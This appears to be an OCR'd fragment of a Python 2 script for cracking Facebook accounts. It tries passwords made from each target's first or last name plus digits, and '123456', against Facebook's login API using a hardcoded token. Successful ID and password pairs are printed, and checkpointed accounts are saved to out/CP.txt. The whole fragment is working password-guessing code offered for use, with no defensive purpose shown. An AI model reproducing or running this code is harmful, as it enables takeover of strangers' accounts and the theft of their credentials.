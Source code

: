 '\n\x1b╔[1;92m[Very.GOOD]' + '\n║ID: ' + user  + ' \n║PASS:  ' + pass2 + '\n╚Name: ' + b['name']                         oks.append(user+pass2)                     else:                         if 'www.facebook.com' in q["error_msg"]:                             print '\n\x1b[1;36;40m╔[sorry.CHECKPOINT] \x1b[1;97m '+ '\n║ID: ' + user  + '\n║PASS: ' + pass2 + '\n╚Name: ' + b['name']                             cek = open("out/CP.txt", "a")                             cek.write(user+"|"+pass2+"\n")                             cek.close()                             cekpoint.append(user+pass2)                         else:                             pass3 = b['first_name'] + '1234'                             data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email="+(user)+"&amp;locale=en_US&amp;password="+(pass3)+"&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6")                             q = json.load(data)                             if 'access_token' in q:                                 print '\n\x1b╔[1;92m[Very.GOOD] \x1b[1;92m ' + '\n║ID: ' + user  + '\n║PASS: ' + pass3 + '\n╚Name: ' + b['name']                                 oks.append(user+pass3)                             else:                                 if 'www.facebook.com' in q["error_msg"]:                                     print '\n\x1b[1;36;40m╔[sorry.CHECKPOINT] \x1b[1;97m ' + '\n║ID: ' + user  + '\n║PASS: ' + pass3 + '\n╚Name: ' + b['name']                                     cek = open("out/CP.txt", "a")                                     cek.write(user+"|"+pass3+"\n")                                     cek.close()                                     cekpoint.append(user+pass4)                                 else:                                     pass4 = b['first_name'] + '12345'                                     data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email="+(user)+"&amp;locale=en_US&amp;password="+(pass4)+"&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6")                                     q = json.load(data)                                     if 'access_token' in q:                                         print '\n\x1b[1;92m╔[Very.GOOD] \x1b[1;92m ' + '\n║ID: ' + user  + '\n║PASS: ' + pass4 + '\n╚Name: ' + b['name']                                         oks.append(user+pass4)                                     else:                                         if 'www.facebook.com' in q["error_msg"]:                                             print '\n\x1b[1;36;40m╔[sorry.CHECKPOINT] \x1b[1;97m ' +'\n║ID: ' + user  + '\n║PASS: ' + pass4 + '\n╚Name: ' + b['name']                                             cek = open("out/CP.txt", "a")                                             cek.write(user+"|"+pass4+"\n")                                             cek.close()                                             cekpoint.append(user+pass4)                                         else:                                             pass5 = '123456'                                             data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email="+(user)+"&amp;locale=en_US&amp;password="+(pass5)+"&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6")                                             q = json.load(data)                                             if 'access_token' in q:                                                 print '\n\x1b[1;92m╔[Very.GOOD] \x1b[1;92m '+ '\n║ID: ' + user  + '\n║PASS: ' + pass5 + '\n╚Name: ' + b['name']                                                 oks.append(user+pass5)                                             else:                                                 if 'www.facebook.com' in q["error_msg"]:                                                     print '\n\x1b[1;36;40m╔[sorry.CHECKPOINT] \x1b[1;97m' + '\n║ID: ' + user  + '\n║PASS: ' + pass5 + '\n╚Name: ' + b['name']                                                     cek = open("out/CP.txt", "a")                                                     cek.write(user+"|"+pass5+"\n")                                                     cek.close()                                                     cekpoint.append(user+pass5)                                                 else:                                                     pass6 = b['last_name'] + '112233'                                                     data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email="+(user)+"&amp;locale=en_US&amp;password="+(pass6)+"&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6")                                                     q = json.load(data)                                                     if 'access_token' in q:                                                         print '\n\x1b[1;92m╔[Very.GOOD] \x1b[1;92m ' + '\n║ID: ' + user  + '\n║PASS: ' + pass6 + '\n╚Name: ' + b['name']                                                         oks.append(user+pass6)                                                     else:                                                         if 'www.facebook.com' in q["error_msg"]:                                                             print '\n\x1b[1;36;40m╔[sorry.CHECKPOINT] \x1b[1;97m ' + '\n║ID: ' + user  + '\n║PASS: ' + pass6 + '\n╚Name: ' + b['name']